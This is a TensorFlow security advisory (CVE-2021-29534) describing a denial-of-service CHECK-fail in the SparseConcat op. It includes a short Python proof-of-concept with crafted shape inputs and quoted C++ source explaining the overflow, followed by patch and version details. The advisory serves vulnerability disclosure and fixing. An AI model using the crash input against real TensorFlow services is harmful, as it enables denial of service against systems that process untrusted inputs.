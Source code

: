 ## TFSA-2021-024: `CHECK`-fail in `SparseConcat`

### CVE Number
CVE-2021-29534

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.SparseConcat`:

```python
import tensorflow as tf
import numpy as np

indices_1 = tf.constant([[514, 514], [514, 514]], dtype=tf.int64)
indices_2 = tf.constant([[514, 530], [599, 877]], dtype=tf.int64)
indices = [indices_1, indices_2]

values_1 = tf.zeros([0], dtype=tf.int64)
values_2 = tf.zeros([0], dtype=tf.int64)
values = [values_1, values_2]

shape_1 = tf.constant([442, 514, 514, 515, 606, 347, 943, 61, 2], dtype=tf.int64)
shape_2 = tf.zeros([9], dtype=tf.int64)
shapes = [shape_1, shape_2]

tf.raw_ops.SparseConcat(indices=indices, values=values, shapes=shapes, concat_dim=2)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/b432a38fe0e1b4b904a6c222cbce794c39703e87/tensorflow/core/kernels/sparse_concat_op.cc#L76)
takes the values specified in `shapes[0]` as dimensions for the output shape:

```cc
TensorShape input_shape(shapes[0].vec<int64>());
```

The [`TensorShape`
constructor](https://github.com/galeone/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L183-L188)
uses a `CHECK` operation which triggers when
[`InitDims`](https://github.com/galeone/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L212-L296)
returns a non-OK status.

```cc
template <class Shape>
TensorShapeBase<Shape>::TensorShapeBase(gtl::ArraySlice<int64> dim_sizes) {
  set_tag(REP16);
  set_data_type(DT_INVALID);
  TF_CHECK_OK(InitDims(dim_sizes));
}
```

In our scenario, this occurs when adding a dimension from the argument results
in overflow:

```cc
template <class Shape>
Status TensorShapeBase<Shape>::InitDims(gtl::ArraySlice<int64> dim_sizes) {
  ...
  Status status = Status::OK();
  for (int64 s : dim_sizes) {
    status.Update(AddDimWithStatus(internal::SubtleMustCopy(s)));
    if (!status.ok()) {
      return status;
    }
  }
}

template <class Shape>
Status TensorShapeBase<Shape>::AddDimWithStatus(int64 size) {
  ...
  int64 new_num_elements;
  if (kIsPartial && (num_elements() < 0 || size < 0)) {
    new_num_elements = -1;
  } else {
    new_num_elements = MultiplyWithoutOverflow(num_elements(), size);
    if (TF_PREDICT_FALSE(new_num_elements < 0)) {
        return errors::Internal("Encountered overflow when multiplying ",
                                num_elements(), " with ", size,
                                ", result: ", new_num_elements);
      }
  }
  ...
}
```

This is a legacy implementation of the constructor and operations should
use `BuildTensorShapeBase` or `AddDimWithStatus` to prevent `CHECK`-failures in
the presence of overflows.

### Patches
We have patched the issue in GitHub commit
[69c68ecbb24dff3fa0e46da0d16c821a2dd22d7c](https://github.com/galeone/tensorflow/commit/69c68ecbb24dff3fa0e46da0d16c821a2dd22d7c).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
